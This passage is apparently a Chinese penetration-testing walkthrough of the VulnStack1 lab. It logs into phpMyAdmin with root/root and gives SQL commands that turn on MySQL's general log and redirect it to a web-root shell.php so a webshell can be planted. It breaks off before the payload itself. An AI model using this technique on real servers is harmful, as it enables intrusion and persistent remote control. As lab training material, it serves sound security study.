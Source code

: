 访问 /phpmyadmin，尝试弱口令，发现 root/root 可以登录

接下来尝试利用 sql 注入写马

##### 尝试 into outfile 写马

利用条件：
1. 知道网站的绝对路径
2. secure_file_priv 不能为 null（当为 “null” 时，不允许导入导出文件；当为 “空” 时，允许导入导出任意文件；当为 “D:\” 时，允许在 D 盘下导入导出）
3. 具有写入文件的权限

利用模糊匹配进行查询
```sql
SHOW GLOBAL VARIABLES LIKE "%secure_file_priv%"
```

结果如下

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_4.png)

secure_file_priv 的值为 NULL，所以不能用 into outfile 写马

如果修改 secure_file_priv 的值，也可以写马：
```
windows 下修改配置文件：mysql.ini
linux 修改配置文件：my.cnf
```

##### 尝试利用日志写马

这里使用普通日志写马，也可以用慢日志写马（如果查询时间超过了设置的时间值，默认为10秒，这个查询语句将被记录到慢查询日志中）

数据库都有一个存放日志的文件，但是这个文件会记录数据库的操作语句，也可能不会记录数据库的操作语句，这取决于两个全局变量：

```general_log```：日志的保存状态，ON代表开启 OFF代表关闭
```general_log_file```：日志的保存路径

使用模糊匹配查询全局变量
```sql
show global variables like "%general%"  
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_5.png)

可以看到 general_log 是 OFF 的状态

打开日志记录
```sql
SET GLOBAL general_log='ON'; 
```

查看SQL安装的绝对路径
```sql
select @@basedir; 
```

得到是 C:/phpStudy/MySQL/

设置写马的路径
```sql
set global general_log_file='C:\\phpStudy\\WWW\\shell.php';
```

